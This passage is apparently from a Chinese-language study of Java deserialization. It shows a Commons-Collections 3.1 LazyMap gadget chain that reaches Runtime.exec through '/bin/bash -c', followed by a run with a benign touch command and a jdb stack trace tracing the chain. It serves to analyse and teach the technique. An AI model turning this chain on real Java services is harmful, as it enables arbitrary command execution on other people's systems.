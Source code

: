 ```java
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( tarray );
        /*
         * 这次不需要提前put("key","value")
         */
        Map             normalMap   = new HashMap();
        /*
         * https://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/org/apache/commons/collections/map/LazyMap.html
         *
         * static Map decorate(Map map, Transformer factory)
         */
        Map             lazyMap     = LazyMap.decorate( normalMap, tchain );
        /*
         * 触发相应的Transformer的transform()方法。不要用已知"key"，否则不
         * 会触发对transform()的调用。前面我没有put()，所以此处可以用任意
         * 字符串。
         */
        lazyMap.get( "anykey" );
    }
}
```

通过Transformer机制间接使用反射方式执行Runtime.getRuntime().exec()。这次使
用LazyMap利用链。LazyMapExec是ReflectExec的LazyMap利用链版本。

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
LazyMapExec "/bin/touch /tmp/scz_is_here"

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [6] org.apache.commons.collections.functors.InvokerTransformer.transform (InvokerTransformer.java:125), pc = 30
  [7] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:122), pc = 12
  [8] org.apache.commons.collections.map.LazyMap.get (LazyMap.java:151), pc = 18
  [9] LazyMapExec.main (LazyMapExec.java:82), pc = 180
